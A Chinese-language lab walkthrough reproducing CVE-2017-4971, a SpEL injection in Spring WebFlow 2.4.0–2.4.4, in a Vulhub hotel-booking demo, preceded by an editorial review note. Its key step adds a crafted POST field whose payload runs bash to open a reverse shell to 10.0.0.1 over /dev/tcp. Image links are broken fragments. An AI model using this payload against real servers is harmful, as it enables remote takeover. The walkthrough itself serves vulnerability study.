



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：列 2.4.0–2.4.4；酒店样例需先登录及启动绑定流程

代码与实验材料：有未编码字段载荷并提醒 URL 编码，完整 HTTP 请求缺失，结果依图片

来源证据范围：明确 Vulhub 原始目录

- **结论使用边界（1）**：实验 URL 端口不一致；依据：login 用 :8080，酒店页 URL 漏端口。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（2）**：图片标记多余重复路径；依据：多个图片后附相同资源路径残片。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2017-4971）Spring WebFlow 远程代码执行漏洞
================================================

一、漏洞简介
------------

Spring WebFlow
是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其
2.4.x
版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

二、漏洞影响
------------

Spring Web Flow 2.4.0版本至2.4.4版本

三、复现过程
------------

首先访问`http://www.0-sec.org:8080/login`，用页面左边给出的任意一个账号/密码登录系统：SpringWebFlow远程代码执行漏洞/media/rId24.png)然后访问id为1的酒店`http://www.0-sec.org/hotels/1`，点击预订按钮"Book
Hotel"，填写相关信息后点击"Process"（从这一步，其实WebFlow就正式开始了）：

SpringWebFlow远程代码执行漏洞/media/rId25.png)

再点击确认"Confirm"：

SpringWebFlow远程代码执行漏洞/media/rId26.png)此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：

    _(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub

SpringWebFlow远程代码执行漏洞/media/rId27.png)（注意：别忘记URL编码）

成功执行，获得shell：

SpringWebFlow远程代码执行漏洞/media/rId28.png)

参考链接
--------

> https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-4971
